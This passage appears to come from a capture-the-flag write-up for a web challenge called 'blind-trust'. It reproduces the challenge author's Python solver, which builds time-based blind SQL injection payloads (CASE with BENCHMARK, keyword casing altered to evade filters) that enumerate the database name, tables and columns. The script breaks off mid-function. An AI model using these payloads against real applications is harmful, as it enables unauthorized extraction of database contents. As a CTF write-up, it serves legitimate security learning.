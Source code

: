 
and finaly we got our flag

![](flag.png)

and this is the full solver script from the author itself

```py
import requests
import time
import string
import random
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from datetime import datetime, timedelta

# Configuration
url = "https://blind-trust.ascwg-challs.app/challenge.php?page=profile"
cookie = "PHPSESSID=476aca5043e9509d1dd933a314ea685d"  # Change this!
proxy = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

headers = {
    "Host": "blind-trust.ascwg-challs.app",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Origin": "https://blind-trust.ascwg-challs.app",
    "Connection": "keep-alive",
    "Referer": "https://blind-trust.ascwg-challs.app/challenge.php?page=profile",
    "Cookie": cookie,
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-User": "?1",
    "Priority": "u=0, i"
}

PNG_DATA = bytes.fromhex("89504E470D0A1A0A0000000D4948445200000001000000010802000000907753DE0000000B49444154180905C10100000000FFFFE20B2E0100000001735247420000AECE0000000049454E44AE426082")

DB_CHARS = string.ascii_lowercase + string.digits + "_"
TABLE_COLUMN_CHARS = string.ascii_lowercase + string.digits + "_"
DATA_CHARS = set(string.printable) - {'\n', '\r', '\t', '\x0b', '\x0c'}

def generate_db_payload(position, char):
    return f"Select CaSE WHEN MID(DATABASE(),{position},1)='{char}' THEN  BENCHMArK(10000000,MD5(1)) ELSE 0  END-- "

def generate_table_payload(position, char, table_offset,  database_name):
    return (
       f"SelECT CaSE WHEN MID((SeLECT table_name FROM information_schema.tables WHERE table_schema='{database_name}' LIMIT {table_offset},1),{position},1)='{char}' THEN BeNCHMARK(10000000,MD5(1)) ELSE 0 END-- "
    )

def generate_column_payload(position, char, table_name, column_offset,  database_name):
    return (
        f"SeLECT CASe WHEN MID((SeLECT column_name FROM information_schema.columns WHERE table_schema='{database_name}' AND table_name='{table_name}' LIMIT {column_offset},1),{position},1)='{char}' THEN BeNCHMARK(10000000,MD5(1)) ELSE 0 END-- "
    )

def generate_data_payload(position, char, table_name, column_name, row_offset, database_name):
```